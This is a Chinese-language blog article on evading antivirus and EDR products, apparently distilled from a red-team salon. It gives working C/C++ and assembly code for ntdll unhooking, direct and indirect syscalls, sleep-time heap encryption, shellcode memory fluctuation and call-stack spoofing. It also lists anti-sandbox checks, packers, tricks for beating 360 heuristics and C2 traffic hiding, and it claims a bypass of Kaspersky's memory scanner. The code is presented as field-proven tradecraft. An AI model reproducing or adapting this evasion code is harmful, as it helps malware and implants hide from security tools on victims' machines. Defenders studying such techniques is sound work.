


# Defense Evasion(防御规避)

原创 鬼屋女鬼

[↓↓↓](javascript:)  
  
干杯 Security  
  
[↑↑↑](javascript:)

*2023-11-07 16:03* *发表于浙江*

收录于合集 #终端对抗 1 个

  

**“** 终端对抗向技巧型文章，闭门沙龙精华提炼版。**”**  

  

  

  

- - -

## 0x00 前言

终端对抗向的技巧型文章，欢迎留言与笔者沟通交流！

## 0x01 Static Analysis Evasion(静态文件规避)

### 一、检测机制

-   基于签名的检测：文件 hash、特征码、文件名、图标
    
-   启发式查杀：导入导出表、API 调用链
    
-   文件熵分析：文件中字节的熵
    
-   元数据分析：编译器、时间戳、数字签名
    
-   PE 节表：PE 文件中异常节
    
-   机器学习：例如常见的 QVM HEUR 202
    

  

### 二、规避技巧

-   加密/压缩：使用自实现加密算法
    

-   常规方法：
    
-   XOR
    
-   Base64
    
-   AES
    
-   RC4
    
-   针对 shellcode 的检测
    

-   代码混淆：混淆源代码（llvm+pass、ollvm）
    

-   控制流平坦化
    
-   虚假控制流
    
-   指定替换
    
-   Pass 插件
    
-   LLVM 混淆
    
-   OLLVM 混淆
    

-   字符串加密：避免基于字符串的检测
    

-   利用 C++ 模板：constexpr 编译时间字符串加密
    
    示例代码：
    

```bash
    template<size_t size>
    constexpr auto obfuscate(const char plaintext[size])
{
        MetaString<size> obfuscated;

        for (size_t i = 0; i < size - 1; i++)
            obfuscated.buff[i] = plaintext[i] ^ key[i % sizeof(key)];

        obfuscated.buff[size - 1] = 0;

        return obfuscated;
    }

#define ENCODE(x) []() { constexpr auto encoded = obfstr::obfuscate<sizeof(x)>(x); return encoded; }()
#define OBFSTR(x) ENCODE(x).deobfuscate()
```

效果如下：


  

-   动态加载 windows api：隐藏导入表
    
    使用
    
    GetProcAddress()
    
    GetModuleHandle()
    
    动态获取 windows API，隐藏导入表
    
    示例代码：
    

```bash
typedef int(WINAPI* pMessageBoxW)(
  HWND    hWnd,
  LPCTSTR lpText,
  LPCTSTR lpCaption,
  UINT    uType
  );

int main()
{
  pMessageBoxW MyMessageBox = (pMessageBoxW)GetProcAddress(GetModuleHandle(L"USER32.dll"), "MessageBoxA");
  MyMessageBox(0, 0, 0, 0);
  return 0;
}
```

-   效果如下：
    
      
    


-   降低文件熵
    

-   shellcode 转 English words
    
-   MAC、IPV4、IPV6、UUID 编码
    
-   分离加载（远程拉取或突破隐写）
    
-   添加大资源文件
    

-   加壳：自写壳、商业壳
    

-   UPX
    
-   VMProtect
    
-   Shielden
    
-   Themida
    
-   ASPack
    
-   Enigma Protector
    

-   模拟正常文件：签名、文件名、图标、属性信息、资源
    
    给 Exe 或 Dll 添加签名、图标、版本属性信息、图片、对话框等资源文件，使文件看起来更加合法，以规避启发式查杀
    
    以 360 为例，常规我们编译出来的文件经常爆 QVM202，但是当我们添加资源文件后，我们即可绕过 QVM202
    


  

  


-   动态生成
    

-   动态生成加密 key
    
-   动态编译生成文件
    
-   ......
    

## 0x02 Dynamic Behavioral Evasion (动态行为规避)

### 一、检测机制

-   Sandbox：沙箱运行观察判断行为是否恶意
    
-   子进程/线程创建：例如监控 Cmd.exe、Powershell.exe
    
-   敏感高危操作：修改注册表、添加用户、添加系统服务、添加计划任务、提权、获取凭证、截图等等….
    
-   敏感目录读写：注册表、自启动目录
    
-   进程链检测：监控父子进程间关系判断是否异常，例如 word.exe—powershell.exe
    
-   代码注入检测：例如远程线程注入、DLL 注入等等
    
-   网络通信：监控网络流量，分析可能的 C2 流量
    
-   API 调用：Hook 常见 Windows API
    

  

### 二、规避技巧

-   Anti sandbox：反沙箱
    

-   使用质数运算延迟执行
    
-   检测系统开机时间是否大于某个设定值
    
-   检测物理内存是否大于 4G
    
-   检测 CPU 核心数是否大于 4
    
-   检测文件名是否修改
    
-   检测磁盘大小是否大于 100G
    
-   判断是否有参数代入
    

-   Anti VM：反虚拟机
    

-   检测进程名
    
-   检测注册表
    
-   检测磁盘中文件
    
    如图：
    
    
    
      
    
      
    

-   Unhook：从磁盘加载 ntdll
    

通过读取磁盘上 ntdll.dll 的.text 节，覆盖内存当中的 ntdll.dll 的.text 节，达到脱钩的效果


  

  

  

示例代码：

```bash
  HANDLE process = GetCurrentProcess();
  MODULEINFO mi = {};
  HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");

  GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
  LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
  HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
  HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
  LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

  PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
  PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

  for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
    PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

    if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
      DWORD oldProtection = 0;
      bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
      memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
      isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
    }
  }

  CloseHandle(process);
  CloseHandle(ntdllFile);
  CloseHandle(ntdllMapping);
  FreeLibrary(ntdllModule);

  return 0;
```

-   Syscall：Direct syscall、Indirect syscall
    

-   Direct syscall
    
    示例代码：
    
    ```bash
    NtAllocateVirtualMemory PROC
        mov r10, rcx
        mov eax, wNtAllocateVirtualMemory
        syscall
        ret
    NtAllocateVirtualMemory ENDP
    
    UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];
    ```
    


  

-   Indirect syscall
    
    示例代码：
    

```bash
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, wNtWriteVirtualMemory
    jmp QWORD PTR [sysAddrNtWriteVirtualMemory]
NtWriteVirtualMemory ENDP


UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");

wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];
sysAddrNtAllocateVirtualMemory = pNtAllocateVirtualMemory + 0x12;
```


  

  

  

-   PE in Memory：内存加载
    

-   利用 Inline-Execute-PE  在内存中加载运行 PE 文件
    
-   利用 BOF.NET 在内存中执行.NET 程序集文件
    

-   进程断链：断掉父子进程链
    

-   利用模拟运行断链
    
-   利用 WMIC 断链
    
-   利用 Com 断链
    

## 0x03 Memory Scanners Evasion (内存扫描规避)

### 一、检测机制

-   内存扫描：扫描内存查找注入的恶意代码，并检测进程内存空间中的可疑 API 调用
    
-   检测项：进程信息、shellcode 特征、堆栈、内存映像
    

  

### 二、规避技巧

-   睡眠混淆：hook sleep 函数，实现内存加密和解密
    

Heap  Encryption

通过 Hook Sleep 函数，睡眠期间加密堆内存规避内存扫描：

```bash
void WINAPI HookedSleep(DWORD dwMiliseconds) {
        DoSuspendThreads(GetCurrentProcessId(), GetCurrentThreadId());
        HeapEncryptDecrypt();

        OldSleep(dwMiliseconds);

        HeapEncryptDecrypt();
        DoResumeThreads(GetCurrentProcessId(), GetCurrentThreadId());
}
```

```bash
关键部分代码，加密堆内存：
```

```bash
static PROCESS_HEAP_ENTRY entry;
VOID HeapEncryptDecrypt() {
    SecureZeroMemory(&entry, sizeof(entry));
    while (HeapWalk(currentHeap, &entry)) {
        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {
            XORFunction(key, keySize, (char*)(entry.lpData), entry.cbData);
        }
    }
}
```

  

-   ShellcodeFluctuation  
    

1.  Hook Sleep 函数
    
2.  定位内存中的 shellcode
    
3.  睡眠期间翻转为 RW
    
4.  睡眠结束翻转为 RX
    
5.  无限循环，以此规避内存扫描
    

关键部分代码：

  

XOR 加密：

```bash
void xor32(uint8_t* buf, size_t bufSize, uint32_t xorKey)
{
    uint32_t* buf32 = reinterpret_cast<uint32_t*>(buf);

    auto bufSizeRounded = (bufSize - (bufSize % sizeof(uint32_t))) / 4;
    for (size_t i = 0; i < bufSizeRounded; i++)
    {
        buf32[i] ^= xorKey;
    }

    for (size_t i = 4 * bufSizeRounded; i < bufSize; i++)
    {
        buf[i] ^= static_cast<uint8_t>(xorKey & 0xff);
    }
}
```

```bash
定位内存中的 shellcode 地址：
```

```bash
bool isShellcodeThread(LPVOID address)
{
    MEMORY_BASIC_INFORMATION mbi = { 0 };
    if (VirtualQuery(address, &mbi, sizeof(mbi)))
    {
        //
        // To verify whether address belongs to the shellcode's allocation, we can simply
        // query for its type. MEM_PRIVATE is an indicator of dynamic allocations such as VirtualAlloc.
        //
        if (mbi.Type == MEM_PRIVATE)
        {
            const DWORD expectedProtection = (g_fluctuate == FluctuateToRW) ? PAGE_READWRITE : PAGE_NOACCESS;

            return ((mbi.Protect & PAGE_EXECUTE_READ)
                || (mbi.Protect & PAGE_EXECUTE_READWRITE)
                || (mbi.Protect & expectedProtection));
        }
    }

    return false;
}
```

  

```bash
加密和解密 shellcode：
```

```bash
void shellcodeEncryptDecrypt(LPVOID callerAddress)
{
    if ((g_fluctuate != NoFluctuation) && g_fluctuationData.shellcodeAddr != nullptr && g_fluctuationData.shellcodeSize > 0)
    {
        if (!isShellcodeThread(callerAddress))
            return;

        DWORD oldProt = 0;

        if (!g_fluctuationData.currentlyEncrypted
            || (g_fluctuationData.currentlyEncrypted && g_fluctuate == FluctuateToNA))
        {
            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
                PAGE_READWRITE,
                &g_fluctuationData.protect
            );

            log("[>] Flipped to RW.");
        }

        log((g_fluctuationData.currentlyEncrypted) ? "[<] Decoding..." : "[>] Encoding...");

        xor32(
            reinterpret_cast<uint8_t*>(g_fluctuationData.shellcodeAddr),
            g_fluctuationData.shellcodeSize,
            g_fluctuationData.encodeKey
        );

        if (!g_fluctuationData.currentlyEncrypted && g_fluctuate == FluctuateToNA)
        {
            //
            // Here we're utilising ORCA666's idea to mark the shellcode as PAGE_NOACCESS instead of PAGE_READWRITE
            // and our previously set up vectored exception handler should catch invalid memory access, flip back memory
            // protections and resume the execution.
            //
            // Be sure to check out ORCA666's original implementation here:
            //      https://github.com/ORCA666/0x41/blob/main/0x41/HookingLoader.hpp#L285
            //

            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
                PAGE_NOACCESS,
                &oldProt
            );

            log("[>] Flipped to No Access.\n");
        }
        else if (g_fluctuationData.currentlyEncrypted)
        {
            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
                g_fluctuationData.protect,
                &oldProt
            );

            log("[<] Flipped back to RX/RWX.\n");
        }

        g_fluctuationData.currentlyEncrypted = !g_fluctuationData.currentlyEncrypted;
    }
}
```

```bash
效果：
```


  

Bypass Kasperskey Memory Scanner:



  

1.  Hook Sleep 函数
    
2.  定位内存中的 shellcode
    
3.  睡眠期间翻转为 RW
    
4.  睡眠结束翻转为 RX
    
5.  无限循环，以此规避内存扫描
    

-   线程堆栈欺骗：欺骗线程堆栈返回地址
    
    默认情况下，线程的返回地址指向我们驻留在内存中的 shellcode，通过检查可疑进程中线程的返回地址，可以轻松识别到内存中的 shellcode
    
      
    
    最简单的方法，直接用 0 覆盖返回地址，从而截断堆栈
    
    关键代码
    

```bash
void WINAPI MySleep(DWORD _dwMilliseconds)
{
    const register DWORD dwMilliseconds = _dwMilliseconds;

    // Perform this (current) thread call stack spoofing.
    PULONG_PTR overwrite = (PULONG_PTR)_AddressOfReturnAddress();
    const register ULONG_PTR origReturnAddress = *overwrite;

    log("[>] Original return address: 0x", std::hex, std::setw(8), std::setfill('0'), origReturnAddress, ". Finishing call stack...");
    *overwrite = 0;

    log("\n===> MySleep(", std::dec, dwMilliseconds, ")\n");

    // Perform sleep emulating originally hooked functionality.
    ::SleepEx(dwMilliseconds, false);

    // Restore original thread's call stack.
    log("[<] Restoring original return address...");
    *overwrite = origReturnAddress;
}
```

效果对比：

默认线程调用堆栈：



  

欺骗后的线程调用堆栈：

  

  

-   总结：
    
    堆栈欺骗 + 内存加密配合使用实战效果极佳，参考 Cobalt Strike 4.7 的 SleepMask
    
      
    

## 0x04 Network traffic Evasion(网络流量规避)

### 一、检测机制

-   威胁情报：IP、域名
    
-   流量特征：固定通信流量特征
    

  

### 二、规避技巧

-   使用 HTTPS
    
-   云函数
    
-   域前置
    
-   更改 C2、webshell 等工具通信流量
    

  

## 0x05 总结

抛出沙龙上，交流提出的两个问题。

-   以后杀软的发展趋势会着重在哪些地方？
    
-   以后对抗难点会在哪些地方？
    

逃逸技术是和反病毒技术的长期对抗。欢迎各位师傅和笔者沟通交流！

  

最后公众号后台回复终端对抗，获取作者联系方式哈。
